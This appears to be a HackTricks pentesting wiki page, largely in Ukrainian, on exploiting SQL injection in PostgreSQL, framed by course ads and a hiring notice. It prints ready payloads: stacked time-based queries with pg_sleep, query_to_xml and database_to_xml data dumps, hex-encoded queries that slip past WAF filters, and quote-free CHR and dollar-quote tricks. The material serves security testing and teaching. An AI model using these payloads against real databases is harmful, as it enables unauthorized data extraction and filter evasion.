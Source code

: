 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Ця сторінка має на меті пояснити різні трюки, які можуть допомогти вам експлуатувати SQL-ін'єкцію, виявлену в базі даних postgresql, і доповнити трюки, які ви можете знайти на** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**Модуль PostgreSQL `dblink`** пропонує можливості для підключення до інших екземплярів PostgreSQL та виконання TCP-з'єднань. Ці функції, в поєднанні з функціональністю `COPY FROM`, дозволяють виконувати дії, такі як підвищення привілеїв, сканування портів та захоплення відповіді на виклик NTLM. Для детальних методів виконання цих атак перевірте, як [виконати ці атаки](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Приклад ексфільтрації за допомогою dblink та великих об'єктів**

Ви можете [**прочитати цей приклад**](dblink-lo\_import-data-exfiltration.md), щоб побачити приклад CTF **як завантажити дані всередині великих об'єктів, а потім ексфільтрувати вміст великих об'єктів всередині імені користувача** функції `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Перевірте, як скомпрометувати хост і підвищити привілеї з PostgreSQL у:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Маніпулювання рядками може допомогти вам **обійти WAF або інші обмеження**.\
[**На цій сторінці** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**ви можете знайти кілька корисних функцій рядків.**

### Stacked Queries

Пам'ятайте, що postgresql підтримує вкладені запити, але кілька додатків видадуть помилку, якщо буде повернено 2 відповіді, коли очікується лише 1. Але ви все ще можете зловживати вкладеними запитами через Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML трюки

**query\_to\_xml**

Ця функція поверне всі дані у форматі XML в одному файлі. Це ідеально, якщо ви хочете вивантажити багато даних в один рядок:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Ця функція вивантажить всю базу даних у форматі XML в лише 1 рядок (обережно, якщо база даних дуже велика, оскільки ви можете викликати DoS або навіть вашого власного клієнта):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Якщо ви можете виконувати **запити**, передаючи їх **всередині рядка** (наприклад, використовуючи функцію **`query_to_xml`**). **Ви можете використовувати convert\_from, щоб передати рядок у вигляді шістнадцяткового коду і обійти фільтри таким чином:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Заборонені лапки

Якщо ви не можете використовувати лапки для вашого payload, ви можете обійти це за допомогою `CHR` для базових клауз (_конкатенація символів працює лише для базових запитів, таких як SELECT, INSERT, DELETE тощо. Це не працює для всіх SQL операторів_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Або з `$`. Ці запити повертають однакові результати:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
